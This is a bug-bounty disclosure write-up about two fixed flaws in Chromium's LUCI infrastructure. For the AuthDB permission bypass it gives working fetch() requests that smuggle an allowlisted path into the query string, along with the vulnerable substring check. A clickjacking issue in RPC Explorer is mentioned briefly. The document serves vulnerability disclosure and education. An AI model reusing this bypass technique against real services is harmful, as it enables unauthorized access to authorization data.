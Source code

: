 ```yaml
---
title: Chromium infra
---
```


# LUCI AuthDB leak (Fixed, Awarded $1000)

LUCI is the CI (Continuous integration) infrastructure for the Chromium project.
This database represents all data used when authorizing incoming requests and handling authentication related tasks: user groups, IP allow lists, OAuth client ID allowlist, etc.

- Login to this URL as any normal google user.
  <https://accounts.google.com/o/oauth2/v2/auth?gsiwebsdk=3&client_id=446450136466-tmlcmovb9hnoh8rhs39846vmmd0rrsl0.apps.googleusercontent.com&scope=https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email&redirect_uri=https%3A%2F%2Fdefaultv2-dot-chrome-infra-auth.appspot.com%2Fauth%2Fopenid%2Fcallback&prompt=select_account&response_type=token&include_granted_scopes=false&enable_granular_consent=true>

- Copy the `access_token` value from the url hash.
- On that same page, run the following

```js
fetch(
  'https://defaultv2-dot-chrome-infra-auth.appspot.com/auth_service/api/v1/authdb/subscription/authorization?x=/auth_service/api/v1/importer/ingest_tarball/',
  {
    headers: {
      authorization: 'Bearer <token goes here>'
    },
    referrerPolicy: 'strict-origin-when-cross-origin',
    method: 'POST',
    mode: 'cors'
  }
);
```

You should now be granted permission to luci-go AuthDB without being in the "auth-trusted-services" group needed as per <https://pkg.go.dev/go.chromium.org/luci/server/auth/service#AuthService.RequestAccess>

`{"topic":"projects/chrome-infra-auth/topics/auth-db-changed","authorized":true,"gs":{"auth_db_gs_path":"chrome-infra-auth.appspot.com/auth-db","authorized":true}}`

You can also use the API to download the DB.

```js
fetch(
  'https://defaultv2-dot-chrome-infra-auth.appspot.com/auth_service/api/v2/authdb/revisions/latest?x=/auth_service/api/v1/importer/ingest_tarball/',
  {
    headers: {
      authorization: 'Bearer <token>'
    },
    referrerPolicy: 'strict-origin-when-cross-origin',
    method: 'GET',
    mode: 'cors'
  }
);
```

The bypass is that if the URL contains `/auth_service/api/v1/importer/ingest_tarball/` anywhere the permission check gets bypassed.
Code is `strings.Contains(ctx.Request.URL.RequestURI(), "/auth_service/api/v1/importer/ingest_tarball/")`
Otherwise I would get `{"text":"user:ndevtk@protonmail.com is not a member of auth-trusted-services or administrators"}`

This was fixed in <https://chromium-review.googlesource.com/c/infra/luci/luci-go/+/5595490>

# Clickjacking RPC Explorer (Fixed)

Go-based services that has gRPC APIs, import "go.chromium.org/luci/server", and call server.Main
Get a web based user interface for example <https://ci.chromium.org/rpcexplorer/services/> this used to not have embed protection.

This was fixed in <https://chromium-review.googlesource.com/c/infra/luci/luci-go/+/4889788>

